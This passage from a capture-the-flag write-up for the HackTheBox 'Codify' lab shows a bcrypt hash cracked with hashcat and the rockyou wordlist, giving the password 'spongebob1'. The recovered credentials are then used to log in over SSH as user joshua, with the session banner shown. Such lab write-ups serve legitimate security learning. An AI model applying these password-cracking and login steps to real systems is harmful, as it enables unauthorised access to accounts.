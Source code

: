 Time to bruteforce 

save hash over a file let's say **hashPassword.txt**

```bash
hashcat -m 3200 hashPassword.txt /usr/share/wordlists/rockyou.txt
```

Once the hashcat finishes it's job you can find out the password which is **spongebob1**
```bash
hashcat -m 3200 hashPassword.txt /usr/share/wordlists/rockyou.txt  --show
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Time to get upgrade our access 

```bash
┌──(tadashi㉿theM7)-[~/Documents/HackTheBox/Codify/hash]
└─$ ssh joshua@codify.htb                         
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  5 01:38:22 PM UTC 2024

  System load:                      0.0
  Usage of /:                       63.6% of 6.50GB
  Memory usage:                     21%
  Swap usage:                       0%
  Processes:                        246
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:a531


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

joshua@codify:~$ 
```
